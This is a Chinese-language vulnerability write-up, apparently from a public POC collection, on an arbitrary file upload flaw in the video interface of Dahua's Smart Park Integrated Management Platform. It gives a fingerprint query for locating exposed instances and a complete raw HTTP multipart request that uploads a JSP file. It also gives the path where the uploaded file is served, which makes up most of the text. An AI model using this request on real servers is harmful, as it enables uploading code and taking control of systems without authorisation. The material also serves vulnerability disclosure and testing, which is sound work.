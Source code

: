# 大华 智慧园区综合管理平台 video 任意文件上传漏洞

# 大华 智慧园区综合管理平台 video 任意文件上传漏洞

## 漏洞描述

大华 智慧园区综合管理平台 video 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，控制服务器权限

## 漏洞影响

大华 智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

登陆页面

![image-20230704114553099](/images/image-20230704114553099.png)

验证POC

```
POST /publishing/publishing/material/file/video HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 804
Content-Type: multipart/form-data; boundary=dd8f988919484abab3816881c55272a7
Accept-Encoding: gzip, deflate
Connection: close

--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Filedata"; filename="Test.jsp"

Test
--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Submit"

submit
--dd8f988919484abab3816881c55272a7--
```

![image-20230828145833164](images/image-20230828145833164.png)

访问：

```
/publishingImg/VIDEO/230812152005170200.jsp
```

